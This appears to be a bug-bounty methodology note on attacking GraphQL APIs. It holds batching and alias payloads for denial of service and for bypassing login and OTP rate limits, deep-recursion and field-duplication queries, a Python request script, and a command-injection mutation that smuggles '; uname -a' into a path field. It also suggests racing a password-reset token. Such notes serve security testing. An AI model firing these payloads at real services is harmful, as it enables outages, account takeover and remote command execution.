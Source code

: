 
# 1 - Batch Query Attacks

If a resource intensive GraphQL query is identified, batch processing can be used to call the query and potentially overwhelm the service for a prolonged period of time.

```
data = [
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]}
]
requests.post('http://host/graphql', json=data)
```

### Aliases based Attack
If batching is disabled, use [aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases), if the server is not analyzing the cost of the query, it can be used to DOS, or it can be used to bypass rate limiting on Login, OTP...

```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```

> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.


# 2 - Denial of Service
### 2.1 :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

### 2.2 :: Resource Intensive Query Attack
Some queries may be computationally more expensive than others, as they would trigger more complex backend logic in order to fulfill the query resolution. we can abuse it by calling these actions frequently in order to cause resource exhaustion.
```
query {
  t1:systemUpdate
}
```
Execution Time :: 81 seconds
> [!NOTE]
> if Query Cost Analysis protection is implemented it should it!
### 2.3 Field Duplication Attack
Various GraphQL implementation do not bother de-duplicating repeating fields in GraphQL, allowing the user to multiply the same requested fields as they wish.
```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
    }
}
```

### 2.4 Circular Fragment
The GraphQL API allows creating circular fragments, such that two fragments are cross-referencing eachother. When a Spread Operator (...) references a fragment, which in return references a 2nd fragment that leads to the former fragment, may cause a recursive loop and crash the server.

Resources
 GraphQL Specification - Fragments Must Not Form Cycles
 GraphQL Cop - Security Auditing Tool for GraphQL

# 3 Information Disclosure
### 3.1 GraphQL suggestions
when Introspection is not allowed suggesstions can be used togain more insight into GraphQL's schema, 
[Clairvoyance - GQL Security tool for field enumeration](https://github.com/nikitastupin/clairvoyance)


### 3.2 GraphQL Interface
GraphiQL is usually found in paths such as: /graphiql or /console, however it can be found in [other places too](https://raw.githubusercontent.com/anmolksachan/anmolksachan.github.io/main/graphql/graphql-common.txt)


# 4 - OWASP
### 4.1 CSRF
Doesn't differ from regular [CSRF](https://portswigger.net/web-security/graphql#graphql-csrf) 
### 4.1 OS Command Injection
```
mutation  {
  importPaste(host:"localhost", port:80, path:"/ ; uname -a", scheme:"http"){
    result
  }
}
```
SSRF, SQLi, XSS, Path Traversal
## Refrences
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)

## Tools
- ShapeShifter - GQL Security tool for Schema Extraction
- Clairvoyance - GraphQL Schema Enumeration Discovery Tool
- graphw00f - GraphQL Fingerprinting Tool
- https://github.com/dolevf/graphql-cop.gitDirective OverloadingDirective Overloading

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

